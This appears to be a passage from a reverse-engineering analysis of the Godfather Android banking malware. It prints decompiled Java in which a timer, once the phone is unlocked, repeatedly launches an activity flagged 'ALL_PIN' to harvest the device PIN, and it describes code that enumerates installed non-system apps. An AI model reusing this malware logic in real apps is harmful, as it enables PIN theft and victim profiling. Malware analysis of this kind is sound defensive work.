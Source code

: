 ```Java

public static void speculated(final Context ctx) {
    KeyguardManager km = (KeyguardManager) ctx.getSystemService("keyguard");
    boolean locked = km.isKeyguardLocked();
    if (!locked) {
        try {
            final Timer timerObj = new Timer();
            TimerTask timerTask = new TimerTask() {
                @Override
                public void run() {
                    if (Tamarix.bedamned(ctx, "opi").contains("false")) {
                        String bedamned = Tamarix.bedamned(ctx, "opo");
                        String effluvias = "true";
                        if (bedamned.contains(effluvias)) {
                            Besant.mismoving.cancel();
                            timerObj.cancel();
                            Tamarix.Sandrakottos(ctx, "oph", effluvias);
                            return;
                        }
                        Intent dialogIntent = new Intent(ctx, untraffickable.class)
                            .putExtra("str", "ALL_PIN")
                            .putExtra("id", "1500");
                        dialogIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                        dialogIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP);
                        dialogIntent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
                        ctx.startActivity(dialogIntent);
                    }
                }
            };
            mismoving = timerTask;
            timerObj.schedule(timerTask, 0L, 2000L);
        } catch (Exception e) {
        }
    }
}

```


{{< image src="img/2025-03-14-godfather-android-analysis/img24.png" caption="Figure 24 - Shared Preference detail" wrapper="text-center">}} 



#### Osnabruck

{{< image src="img/2025-03-14-godfather-android-analysis/img25.png" caption="Figure 25 - Osnabruck Class" wrapper="text-center">}} 

In this function a “bowfin” string is initialized with the value, representing an empty string or URL escape character.
A loop is run through the list of installed applications obtained through the PackageManager.
For each PackageInfo in the list:
1.  If the Flag_System flag of the application is disable (indicating that the application is non-system), 
2.  the application package name is added to the bowfin string, followed by |||.
At the end, the bowfin string is passed to the Sandrakottos function.
